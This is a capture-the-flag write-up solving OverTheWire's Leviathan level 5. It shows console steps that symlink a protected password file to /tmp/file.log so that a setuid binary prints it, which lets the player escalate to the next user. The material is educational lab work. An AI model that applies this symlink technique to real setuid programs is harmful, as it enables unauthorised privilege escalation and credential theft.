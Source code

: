 ```yaml
---
title: Overthewire Leviathan Level 5
date: '2022-03-02 23:15:00'
author: Michael
categories: [overthewire, overthewire-leviathan]
tags: [overthewire, leviathan]
---
```


Solution for the Overthewire.org [Leviathan level 5](https://overthewire.org/wargames/leviathan/leviathan5.html){:target="\_blank"}

## Level Goal  

There is no information for this level, intentionally.

## Walkthrough 
Login to the server using the password obtained from the previous level [Leviathan level 4]({% post_url 2022-03-02-leviathan4 %}). 

username: `leviathan5` 

```ssh
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```

With no description given first thing we do is check what is in the home directory.

```console
leviathan5@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan5` with the suid bit set.
When we run `leviathan5` we get an error stating it cannot find `file.log`.

```console
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
```

What happens if the file exists ? Let's create the file.

```console
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5

```

Nothing seems to have happened and the file is now deleted.

Let's try again but this time put some text in the file.

```console
leviathan5@leviathan:~$ echo "Hello" >  /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5
Hello
```

The contents of the file was printed to screen and the file then deleted.

Since `leviathan5` file runs with leviathan6 permissions we can create a symbolic link between the password file and file.log and print the password.

```console
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

leviathan5@leviathan:~$ ./leviathan5 
Uga*******
```